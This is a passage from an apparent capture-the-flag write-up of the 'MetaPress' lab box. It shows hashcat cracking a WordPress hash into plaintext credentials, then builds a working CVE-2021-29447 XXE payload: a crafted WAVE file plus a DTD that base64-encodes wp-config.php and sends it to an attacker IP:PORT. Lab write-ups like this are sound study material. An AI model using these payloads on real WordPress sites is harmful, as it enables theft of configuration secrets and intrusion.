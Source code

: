 haskcat cracked the "manager" password hash.
```bash
❯ hashcat -m 400 -a 0 hashes /usr/share/wordlists/rockyou.txt --show
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

Creds -> `manager:partylikearockstar`

## WP XXE CVE-2021-29447

With manager creds we can login to wordpress dashboard, but "manager" only have "Media Library" access.

![](screenshots/http-metapress.htb-wp-admin-manager.png)

and there is a vulnerability in wordpress version 5.6.0 to 5.7.0 where an an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).

* Version -> WP 5.6.0 to 5.7.0
* Vulnerability -> XXE [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)

Generate payload wave file -
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://IP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Create dtd file -
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:PORT/?p=%file;'>" >
```
